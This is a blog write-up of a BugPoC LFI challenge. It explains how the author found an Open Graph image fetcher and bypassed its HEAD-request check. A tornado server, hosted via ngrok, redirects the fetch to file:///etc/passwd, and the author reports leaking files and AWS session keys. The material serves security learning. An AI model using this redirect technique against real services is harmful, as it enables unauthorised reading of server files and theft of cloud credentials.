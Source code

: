 ```yaml
---
layout: post
title:  "LFI Challenge Writeup"
date:   2020-10-06 11:25:10 +0545
author: machinexa
image: /writeups/assets/images/lfichallenge.jpeg
category: Writeups
---
```

<br>

## Description
Browsing Twitter I saw a new challenge from BugPoC which was about LFI I immediately started solving it. The image instructed me to visit [http://social.buggywebsite.com/](https://social.buggywebsite.com/) to start the challenge. Also, since it was a server-sided bug, I got energized to solve it. 

### Starting point
First of I had to find sink where i could execute LFI. I tried typing and it generated the option to share. Looking at the source code more, i find a compressed javascript file, it showed various functinons. After analyzing the code, I found out only request starting with `https` made an xhr request and to https://api.buggywebsite.com. It send json data with url and requestTime parameter.
```js
function processUrl(e) {
    requestTime = Date.now(), url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText), populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText), document.getElementById("website-preview").style.display = "none")
    }, t.open("POST", url, !0), t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"), t.setRequestHeader("Accept", "application/json"), data = {
        url: e,
        requestTime: requestTime
    }, t.send(JSON.stringify(data))
```

### Developing client
I had to write a client that interacts with API with those parameters filled with value. First, i found `get_second()` (a function to get current second) in StackOverflow answer. Then for url, I used input prompt on while loop. This is what a successful response looks like, and it also returns an image in base64 encoded form.   

![Response](/writeups/assets/images/lfichallenge_response.png)

I used the JSON module to parse the data then the content of the image is dumped to file. Here's my source code [Exploit.py](https://gist.github.com/machinexa2/118a7983b407cca55a6a1801a10acb7c); Now, I tried different kinds of stuff, ideas such as SSRF but it wasn't working. I later realized it was using urllib3 to make requests which could never result in LFI but only SSRF. SSRF was also not possible as it was not showing response and was probably blocked. Also, since the API wasn't vulnerable I looked for other endpoints etc but nothing seemed to work. Playing with it for some amount of time revealed something that I missed before.  

### Open Graph metadata
It was parsing the `<meta>` tags and reflecting them. OG is short for Open Graph which allows a web page to become a rich object in the social graph. It had a lot of tags and some tags that were being reflected were `og: description`, `og: type`, `og: image`, and `og.url`. Also, description, type, and url didn't have much effect on the server. However, the parser was again fetching resources from image tag and used urllib3 to fetch. Trying for SSRF again failed me and SSRF wasn't a solution to the challenge so I moved on.

Looking at a different perspective, I found the following details:
* It fetches similar to this `^https://.*\.(jpg|svg|png)$`
* Serving another file with extensions fails a HEAD request, parser checks by mimetype which can be bypassed
* Serving `.jpg` file with jpg magic header, base64 encodes the returned image response   

![Details](/writeups/assets/images/lfichallenge_details.png)

I tried putting HTML, PHP, and other code in the jpeg mimetype file but it didn't work. I also tried using Exif tags for code execution which didn't work too. I was quite lost at these moments and those weird hints from BugPoC made me madder.  

### Hitting the jackpot
Since, HEAD request was used to verify whether its image or not, I coded in tornado to create a server. I set content-type and other headers of image, and issued redirection to /etc/passwd at second get request which should hopefully get us /etc/passwd. A small snippet shows how I coded it:   
```python
class FileHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'http://fa0cf2d0f26e.ngrok.io//asset/original.jpg')
    def get(self):
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'file:///etc/motd')
        self.write("<p>You should be redirected automatically to target URL: <a href='file:///etc/passwd'>file:///etc/passwd</a>")
        self.redirect("file:///etc/motd")

class IndexHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Cache-Control', 'public, max-age=0')
        self.set_header('Pragma', 'no-cache')
        self.redirect('/asset/original.jpg')
    def get(self):
        with open('index.html', 'rb') as f:
            self.write(f.read())
```
<br>
Now, let's host the malicious server, and get that file. Also, I rechanged a lot of my exploit.py code and other files to make it as easy to get the file. I hit the jackpot got the file!

![Pwned](/writeups/assets/images/lfichallenge_pwned.png)

# Changing the impact
This is incomplete writeup and maybe changed. So, some after trying some common files i got two tokens `AWS_SESSION_TOKEN` and  `AWS_SECRET_ACCESS_KEY7`. AWS sessoin key was long and covered with lot of slashes. This is the metadata of AWS they talked about. Now currently trying to leak source code

## Takeaway 

* Always try harder, if I left when I failed SSRF, I couldn't have solved the challenge 
* Javascript files are a gold mine. Do always read them and try to find sensitive endpoints.
* Coding is essential to exploit development. Make sure you master at least a single programming language.

Some hints from BugPoC helped me but the last ones were absurd and meaningless. Also, I necessarily didnt have to code server and client. For the server, I could have used BugPoC mock endpoint and for a client, I could have used either burp or browser for testing purposes, the client is best!

